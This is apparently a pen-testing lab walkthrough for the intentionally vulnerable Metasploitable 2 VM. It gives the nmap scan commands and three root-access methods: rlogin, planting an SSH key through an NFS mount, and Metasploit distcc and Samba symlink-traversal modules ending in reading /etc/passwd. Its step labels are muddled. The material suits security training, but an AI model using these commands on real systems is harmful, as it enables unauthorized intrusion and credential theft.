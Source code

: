 ```yaml
---
title: Metasploitable
published: true
---
```

The following information shows the **Metasploitable walkthrough**

## [](#header-2)Introduction

   Metasploitable is a Linux based operating system that is designed in a vulnerable way so that the pen-testers and ethical hackers can test their skills. There is no security to the server hence it is always better to _run the metasploitable in a virtual environment_, as anyone can logon into it.
  
### [](#header-3)Requirements
  
   1. Download the vulnerable OS from the following link, **[metaploitable_download_link](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/).**
   2. Kali Linux can be downloaded from the link, **[Kali_Linux_download_link](https://www.kali.org/).**
   3. Virtual Environment, here example is shown using VMware Workstation.
   4. Good understanding of Metasploit Framework(MSF).
   5. Linux commands usage.
       Install both the Operating Systems and run it.
      
      **_NOTE: Installation steps of Kali Linux can be found here,[Kali_linux_insatllation_guide](another_page)_.**
      
   When the OSes installed properly, one can encounter as shown in the following image,
   

# [](#header-1) image 
   
   
   Login into the metasploitable terminal, Username and password would be given(commonly, it is msfadmin)
     
   Get the IP address, `# ifconfig`
   Use that IP_address and perform the following steps: 
        1. Scanning
        
        2. Vulnerability identification/Enumeration
        
        3. Exploitation and Access Gaining 

# [](#header-1) Network Penetration Testing

# [](#header-1)Step 1: Scanning 
   
   In this we need to find the ports that are open and also services running on that each port using which exploitation is done.

   * Open a terminal in Kali Linux and use **_namp_** to perform the Network Scanning
   * Enter the following command, `# nmap -sS -Pn -n ip_address`
     - by default NMAP scans upto 1000 ports, to scan all the ports use either `-p`- or `-p 1-65535`
     - the above command offers the TCP SYN scan, to scan the UDP ports use `-sU`
     - the command also skips the host discovery(no Ping) and DNS resolution
            
      The results can be similar to the following image,
      
      # [](#header-1) image 
         
        ![](https://assets-cdn.github.com/images/icons/emoji/octocat.png)



# [](#header-1)Step 1: Enumeration

nmap -Pn --script vuln 192.168.1.105

   BOOM!!!!!!!!

# [](#header-1)Step 1: Exploitation and Acess Gaining

   There are various to gain access to the Metasploitable target machine. Lets try them as follows,
**_METHOD 1:_**
   
   Ports 512,513,514 offers the ‘r’ services, it means that remote access can be gained from any host using the IP address.
So, 
	open a terminal
	type, **_# rlogin -l root ip_address_** 	
// if asks for password then probably rsh-client  is not installed, else you will be in that machine 
	**_# apt install rsh-client_**
	now execute **_# rlogin -l root ip_address_** 	
// should work perfectly if that service is open


**_METHOD 2: SSH LOGIN_**

   For this we need to generate the RSA key and kinda have to copy that key to that target machine using rpcbind and NFS (port 2049) mount the NFS export (for exporting), and add our key to the root user account's authorized_keys file.
       **_# apt update
         # apt install rpcbind nfs-common
         # rpcinfo -p ip_address
         # showmount -e ip_address
         # ssh-keygen	//just press enter for the questions asked for default settings
         # mkdir /tmp/r00t
         # mount -t nfs ip_address:/ /tmp/r00t
         # cat ~/.ssh/id_rsa.pub >> /tmp/r00t/root/.ssh/authorized_keys
         # umount /tmp/r00t
         # ssh root@ip_address_**
         
         
**_METHOD 3: SMB 445_**
	Samba, can also be used as a backdoor to access files that were not meant to be shared when configured with a writeable file share and "wide links" enabled. I used Metasploit Framework to compromise the target.
	
   On msfconsole,
      > msf use exploit/unix/misc/distcc_
      > set rhost 192.168.214.129
      > exploit
   On another terminal
      # smbclient -L //ip_address
   On msfconsole,
      > use auxiliary/admin/smb/samba_symlink_traversal
      msf5 auxiliary(admin/smb/samba_symlink_traversal) > set rhost ip_address
      msf5 auxiliary(admin/smb/samba_symlink_traversal) > set SMBSHARE tmp
      msf5 auxiliary(admin/smb/samba_symlink_traversal) > exploit
	On terminal,
      smbclient  //ip_address/tmp
			// now you will have the smb shell access, try #cd rootfs #cd etc and #more passwd


```
The final element.
```
